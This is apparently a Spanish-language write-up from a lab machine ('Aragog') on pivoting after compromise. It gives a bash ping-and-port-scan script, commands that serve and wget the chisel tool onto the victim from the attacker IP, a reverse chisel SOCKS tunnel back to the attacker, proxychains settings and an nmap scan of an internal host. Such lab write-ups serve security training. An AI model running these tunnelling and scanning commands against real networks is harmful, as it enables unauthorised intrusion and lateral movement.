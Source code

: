 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `https://github.com/jpillora/chisel`para crear un túnel de tipo socks para llegar a los puertos que hay en los puertos de la red interna que desde nuestra maquina atacante no llegamos a ver.

Lo descargamos y lo descomprimimos y le damos permisos de ejecución.
Lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Y en la maquina victima:
`wget http://192.168.1.19/chisel`

Ejecutamos chisel en la maquina atacante como servidor para que las maquinas se conecten a el
`./chisel server --reverse -p 1234`

Ahora en la maquina victima lo ejecutamos como cliente en la maquina victima:
`./chisel client 192.168.1.19:1234 R:socks`

Lo que estamos haciendo con el parámetro `R:1080:socks` es abrirte el puerto `1080` haciéndote un túnel directo a la maquina `10.10.0.5`


En la maquina atacante abrimos el archivo ` /etc/proxychains4.conf` y modificamos:
`dynamic_chain` comentado
`stric_chain` descomentado
Y al final del documento añadimos `socks5 127.0.0.1 1080`

Ahora cuando queramos hacer una enumeración de puertos de la maquina victima [[10.10.0.5(Nagini)]] deberemos usar `nmap -sT -Pn -p- -open -T5 -v -n 10.10.0.5 2>/dev/null`

Si queremos que sea mas rápido utilizaremos secuenciadores y xargs para paralelizar comandos:





